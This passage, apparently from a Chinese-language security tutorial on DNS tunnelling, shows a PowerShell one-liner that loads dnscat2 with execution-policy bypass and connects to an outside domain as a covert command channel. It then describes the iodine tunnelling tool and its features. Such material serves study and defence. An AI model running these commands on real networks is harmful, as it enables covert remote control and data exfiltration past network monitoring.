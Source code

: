 ![](/assets/images/move/2020-05-27-10-58-09.png)

- PowerShell ./dnscat2.ps1

```cmd
powershell.exe -nop -exec bypass -Command "& {Import-Module .\dnscat2.ps1; Start-Dnscat2 -DNSServer 8.8.8.8 -Domain dns.endl.me -PreSharedSecret endl.me}"
```

![](/assets/images/move/2020-05-27-11-35-27.png)

![](/assets/images/move/2020-05-27-11-07-27.png)


#### iodine

碘的原子序数是 53，恰好是 DNS 端口号，故该工具被命名为 iodine。[iodine](https://code.kryo.se/iodine/) 可以通过一台 DNS 服务器创建一个 IPv4 数据通道，适合在目标主机上只能发送 DNS 请求的网络环境中使用。

与其他 DNS 隧道实现相比，iodine 提供：

- 更高的性能。iodine 使用 NULL 类型，该类型允许不进行编码就发送下游数据。每个 DNS 回复都可以包含超过一千字节的压缩有效负载数据。

- 可移植性。多平台支持，iodine 在许多不同的类 UNIX 的系统以及 Win32 上运行。无论字节序或操作系统如何，都可以在两个主机之间建立隧道。

- 安全性。iodine 使用由 MD5 加密的挑战-响应登录。它还会过滤掉登录时使用的 IP 以外的任何数据包。
